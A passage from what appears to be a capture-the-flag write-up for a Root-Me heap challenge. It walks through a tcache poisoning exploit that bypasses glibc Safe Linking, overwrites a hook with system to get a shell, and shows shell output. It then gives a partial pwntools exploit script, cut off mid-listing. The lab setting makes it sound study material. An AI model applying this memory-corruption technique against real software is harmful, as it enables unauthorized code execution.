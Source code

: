 Only one thing left which is to mask the target pointer that we want to overwrite so we bypass ``Safe Linking``. 

```python
      hook = alpha(heap_base, hook)
```

everything is read , classic ``Tcache poising attack`` now .

```python
      edit(0, p64(hook))
      add(6, 0x20, b"A" * 8)
      add(7, 0x20, p64(system))
	  free(5) // triggering the sploit.
```

and we should be good 
```
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x3b bytes:
    b'chall  chall_patched  core  ld-2.32.so\tlibc.so.6  solve.py\n'
chall  chall_patched  core  ld-2.32.so    libc.so.6  solve.py
$ id
[DEBUG] Sent 0x3 bytes:
    b'id\n'
[DEBUG] Received 0xd0 bytes:
    b'uid=1000(retr0) gid=1000(retr0) groups=1000(retr0),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),119(wireshark),122(bluetooth),134(scanner),142(kaboxer)\n'
uid=1000(retr0) gid=1000(retr0) groups=1000(retr0),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),119(wireshark),122(bluetooth),134(scanner),142(kaboxer)
$  
```

# Full Exploit
```python
#!/usr/bin/env python3
from pwn import *
context.update(os="linux", arch = "amd64", log_level="debug")
exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.32.so")
context.binary = exe
#p = process("./chall_patched")
p = remote("challenge03.root-me.org", 56589)
def alpha(heap, target):
    return target ^ (heap >> 0xc)

def x(): gdb.attach(p)
def sl(choice): p.sendlineafter(b"Choice?\n", str(choice))
def add(idx,size,content:bytes):
    sl(1)
    p.sendlineafter("Index:", str(idx))
    p.sendlineafter("Size:", str(size))
    p.sendafter("Data:", content)

def free(idx):
    sl(2)
    p.sendlineafter("Index:", str(idx))

def edit(idx,content:bytes):
    sl(3)
    p.sendlineafter("Index:", str(idx))
```